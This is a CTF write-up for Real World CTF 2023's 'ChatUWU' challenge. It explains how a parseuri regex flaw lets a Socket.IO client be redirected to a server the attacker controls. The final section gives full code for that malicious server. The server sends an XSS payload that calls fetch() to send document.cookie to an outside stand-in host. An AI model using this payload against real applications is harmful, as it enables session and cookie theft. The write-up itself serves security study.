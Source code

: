 ```yaml
---
layout: post
title: "Real World CTF 2023: ChatUWU Writeup"
categories: writeups
author: WhoNeedsSleep
---
```


[Real World CTF 2023](https://realworldctf.com/challenge) is a jeopardy-style capture-the-flag event, known for its realistic challenges.
We participated as part of the [Sauercloud](https://ctftime.org/team/54748) CTF team.

## Overview
The challenge description reads: "I can ensure you that there is no xss on the server! You will find the flag in the admin's cookie." Also provided are links to the challenge and the XSS bot, as well as the source code. So immediately our goal is clear: steal the cookies of the XSS bot!

Let's take a look at the application:
The challenge is a simple Node.js app with one static HTML file, that is served, and a single `index.js` for the backend. The app is a simple chat app.

## Let's find an XSS

Upon taking a look at `index.html` we first see that it uses `Socket.IO` for the chat communication with the server and also quickly find this:
```js
socket.on('msg', function (msg) {
    let item = document.createElement('li'),
        msgtext = `... ${msg.text}`;
    room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext 
    ...
    messages.appendChild(item);
    ...
```

So any messages received via `Socket.IO` are inserted into the DOM without sanitization if the chat-room's name is `DOMPurify` and the message's `isHtml` field is `true`.
So let's try to send a message containing an XSS payload

![Screenshot escaped Message](/imgs/rwctf23-chatuwu-escaped-message.png)

Clearly that didn't work -- so the server must have sanitized it before sending it back to all clients.

## The Server Code

Here we immediately see why our simple attempt failed:
```js
io.to(room).emit('msg', {
    from: DOMPurify.sanitize(msg.from),
    text: DOMPurify.sanitize(msg.text),
    isHtml: true
});
```
Any message sent to the clients is piped through DOMPurify -- RIP simple XSS.

## A Different Approach 

Given the simplicity of the app, we were pretty sure that the client side DOM injection is our way of stealing the cookie. So maybe, we can attack the connection by hijacking the `Socket.IO` connection.

Let's see how the client establishes the connection:
```js
let socket = io(`/${location.search}`) 
```

Interestingly, the entire query string is passed into `Socket.IO` for parsing. Let's take a look at how the parsing works. In the used `socket.io.js` we find this in the constructor:
```js
uri = parse(uri);
opts.hostname = uri.host
```
Looks promising. We can completely control `uri` except for the leading `/`. Let's dig deeper. For `parse` we find this:
```js
  // imported from https://github.com/galkn/parseuri

  /**
   * Parses an URI
   *
   * @author Steven Levithan <stevenlevithan.com> (MIT license)
   * @api private
   */
  ...
  function parse(str) {...}
```

In the repo we find this issue: [https://github.com/galkn/parseuri/issues/12](https://github.com/galkn/parseuri/issues/12), and it's still open! Unfortunately, there are no details about the security issue, so we need to find it ourselves.

## The Vulnerability

Let's take a look at the regex used for the parsing of `uri`:
```js
var re = /^(?:(?![^:@]+:[^:@\/]*@)(http|https|ws|wss):\/\/)?((?:(([^:@]*)(?::([^:@]*))?)?@)?((?:[a-f0-9]{0,4}:){2,7}[a-f0-9]{0,4}|[^:\/?#]*)(?::(\d*))?)(((\/(?:[^?#](?![^?#\/]*\.[^?#\/.]+(?:[?#]|$)))*\/?)?([^?#\/]*))(?:\?([^#]*))?(?:#(.*))?)/;
```

The interesting part for us is that it checks for username/password as part of the uri and it does so by looking for any string in front of the first `@` in the passed uri, not just in the authority part. So if we append `@our.domain.invalid` to the end of `uri`, the parse function will treat everything between the protocol and the `@` as a username and `our.domain.invalid` as the hostname.
This is the vulnerability we need.

## The Exploit

Idea: We will host a malicious version of `index.js` ourselves with a key addition: a JavaScript payload that exfiltrates the cookie that is sent, instead of the normal join message. It is sent after a user joins to all users including the joining one.

Code:
```js
const app = require('express')();
const http = require('http').Server(app);
const io = require('socket.io')(http, {
  cors: {
    origin: "*",
    methods: ["GET", "POST"]
  }
});
const DOMPurify = require('isomorphic-dompurify');

const hostname = process.env.HOSTNAME || '0.0.0.0';
const port = 80;
const rooms = ['textContent', 'DOMPurify'];


app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

io.on('connection', (socket) => {
    let {nickname, room} = socket.handshake.query;
    socket.join(room);
    io.to(room).emit('msg', {
        from: 'system',
        text: "<img src onerror='fetch(\"https://our.domain.invalid/?\" + document.cookie)'>",
        isHtml: true
    });
});

http.listen(port, hostname, () => {
    console.log(`ChatUWU server running at http://${hostname}:${port}/`);
});
```

We get the flag 🍉:
```
rwctf{1e542e65e8240f9d60ab41862778a1b408d97ac2}
```
